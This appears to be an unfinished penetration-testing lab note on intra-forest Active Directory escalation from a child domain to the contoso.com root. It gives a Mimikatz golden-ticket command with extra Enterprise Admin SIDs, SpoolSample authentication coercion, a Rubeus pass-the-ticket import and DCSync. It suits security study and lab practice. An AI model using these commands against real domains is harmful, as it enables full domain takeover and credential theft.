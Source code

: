 **INTRA-FOREST EXPLOTATION CONCEPT ACLARATION:**

By saying intra-forest explotation I mean owning the others domain in your current forest. For example the contoso.com is the root domain of the contoso.com forest, however the prod.contoso.com is a subdomain in the contoso.com forest, and so on. As it's logical, trust exists between domains(and also between forests). In our lab, exists a bidirecctional trust between the prod.contoso.com and the contoso.com domain(also known as parent-child trust).

**EXTRA SIDS:**

(Add some theory here)
To create a golden ticket with extraSIDs(in this case enterprise admins) with the krbtgt passwd hash:

`kerberos::golden /user:h4x /domain:origin-domain /sid:SID-of-origin-domain /krbtgt:krbtgt_passwdhash /sids:SID_of_target_domain-519 /ptt`

(The user specified does not need to exist)
Then DcSync. The DcSync will work since the trust between prod.contoso.com and contoso.com is bidirecctional. Meaning that the KDC from contoso.com trusts the KDC from prod.contoso.com

**PRINTERS:**

First force an authentication with SpoolSample to obtain a TGT from another domain(contoso.com), then import that TGT with rubeus and then dcsync.

Forcing the auth with spoolsample:

`.\SpoolSample.exe rdc01.contoso.com appsrv01.prod.contoso.com`

Importing the ticket with Rubeus:

`Rubeus.exe ptt /ticket:doIE9DCCBPCgAwIBBaEDAgEWooIEBDCCBABhggP8MIID+...`

